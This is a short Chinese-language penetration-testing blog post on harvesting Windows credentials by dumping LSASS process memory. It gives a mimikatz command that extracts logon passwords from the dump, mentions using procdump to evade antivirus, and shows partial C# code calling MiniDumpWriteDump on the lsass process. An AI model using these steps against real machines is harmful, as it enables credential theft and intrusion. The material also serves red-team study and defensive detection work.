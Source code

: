 ```yaml
---
layout: post
title: MiniDumpWriteDump
---
```




## 0x01

常见内网渗透会经常遇到抓取windows密码的场景，本文用来学习使用内存转储的方式来获取windows密码。

## 0x02

我们可以将转储LSASS的进程内存。Windows允许我们创建转储文件，它是给定进程的快照。此转储包括加载的库和应用程序内存。

在任务管理器中直接转储就可以，他将会生成一个dmp的文件，然后拿回本地用Minikatz解密即可。



![img](https://gitee.com/a4m1n/tuchuang/raw/master/pic/clipboard.png)

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit > password.txt
```

这样做的缺点是需要图形化界面，需要登录到管理员桌面，然后操作，渗透中常用的方法有sqldump,procdump,不过Procdump在遇到某些AV时候会被拦截，不过选择要procdump的pid来转储时也可以达到Bypass的效果

## 0x03

其实不难发现，Procdump和任务管理器的这两种方法都是使用了MiniDumpWriteDump的API

```
BOOL MiniDumpWriteDump(
  HANDLE                            hProcess,      //获取 LSASS的句柄
  DWORD                             ProcessId,     //获取 LSASS的进程ID号
  HANDLE                            hFile,		   //要写入信息的文件句柄
  MINIDUMP_TYPE                     DumpType,      //要生成的信息类型
  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,  //指向MINIDUMP_EXCEPTION_INFORMATION 结构的指针
  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,  //指向MINIDUMP_USER_STREAM_INFORMATION 结构的指针 
  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam   //指向MINIDUMP_CALLBACK_INFORMATION 结构的指针
);
```

其实并不需要全部的参数，使用前面4个即可，然后看下需要的Import

![image-20210811173030733](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811173030733.png)

```
static extern bool MiniDumpWriteDump(IntPtr hProcess, uint ProcessId, IntPtr hFile, int DumpType, ref MINIDUMP_EXCEPTION_INFORMATION ExceptionParam,IntPtr UserStreamParam, IntPtr CallbackParam);
```

要获取进程 ID，我们可以使用 Process 类GetProcessesByName 方法

```
Process[] lsass = Process.GetProcessesByName("lsass");
int lsass_pid = lsass[0].Id;
```

使用Process方法的时候需要引入Diagnostics

![image-20210811174541665](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811174541665.png)